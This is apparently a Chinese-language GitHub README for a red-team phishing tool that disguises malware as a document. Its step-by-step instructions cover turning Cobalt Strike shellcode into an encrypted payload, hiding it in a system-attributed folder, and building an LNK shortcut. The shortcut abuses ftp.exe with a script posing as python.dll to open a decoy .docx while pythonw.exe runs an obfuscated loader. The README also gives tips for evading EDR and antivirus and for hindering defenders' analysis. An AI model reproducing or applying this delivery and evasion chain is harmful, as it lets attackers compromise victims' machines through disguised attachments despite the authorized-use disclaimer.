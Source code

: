 # 前言

最近看到一些博客文章对红队样本做了一些分析，估计很快此方法便失效了，决定放出来供红队成员学习研究

https://xz.aliyun.com/t/15308?time__1311=GqjxnD2Citq05DK54CqiKq7KYAKW948OObD

https://www.52pojie.cn/thread-1956543-1-1.html

其实这种方式在很早之前便出现了，之前更多的是调用powershell易被拦截

https://www.freebuf.com/articles/web/325322.html

但通过调用一些白程序(pythonw、javaw)仍可以绕过许多EDR杀软

# 常规程序弊端

- 如果使用捆绑程序释放文档和木马，容易被EDR杀软会标记为恶意，如某数字杀软常会产生 `qvm 报毒拦截`
- 红队木马被上传沙箱后，容易失效并且可能会导致大量的虚拟beacon上线，对攻击方造成影响

# 使用方式

特此感谢 [pant0m](https://github.com/pant0m)，本工具在其基础上进行二改

1、`cobaltstrike` 生成 `beacon_x64.bin`，或者使用其他C2的shellcode，默认匹配当前目录的第一个bin文件

![image](https://github.com/user-attachments/assets/fc97cb09-f20c-4f38-b639-968d0cdbfb10)

2、运行`generate.py`，自动加密`shellcode`并复制到当前`__init__`文件夹下

![image](https://github.com/user-attachments/assets/bf3081fb-60fc-4bf2-b37f-68463473d453)

3、设置属性隐藏文件夹 `__init__`

```
attrib -s -h -r __init__
attrib +s +h +r __init__
```

LNK属性填写

```
C:\Windows\System32\ftp.exe -""s:__init__\python.dll
```
![image](https://github.com/user-attachments/assets/3af29388-36b9-44f8-bffb-3f11b2ef488b)

python.dll 内容为

```
!start /b __init__\11.docx
!start /b __init__\pythonw.exe __init__\main.py
bye
```

# 实现效果

![e58ad4a8c625481495a7137bee2837e](https://github.com/user-attachments/assets/f9b781b9-795f-4304-ad68-67ddac4ab393)

# 代码加解密和混淆

加载方式为了简便选择本地解密加载，但如果说为了更好的防溯源和被蓝队捕获shellcode可使用远程加载的方式，但需要注意存储桶的权限配置

解密loader因为需要携带在附件内，所以需要尽可能混淆，增加蓝队的逆向难度

https://pyob.oxyry.com/

![image](https://github.com/user-attachments/assets/3ad71315-9824-49b5-8196-e75afee1668c) 

# 坑点细节

因为文件调用是在上一级目录下，因此`加密shellcode路径`应设置为相对的 `__init__/data.dat`

```
def loadjson (file ='__init__/data.dat'):#line:14
    with open (file ,'r',encoding ='utf-8')as O0OOO00O0OO0O0OO0 :#line:16
        OOO0O0OO000OOO0O0 =json .load (O0OOO00O0OO0O0OO0 )
```

pythonw.exe需要添加libs依赖才能正常运行，把文件夹下面的文件全部拷贝

```java
C:\Users\Administrator\AppData\Local\Programs\Python\Python38\Lib
```

声明
仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

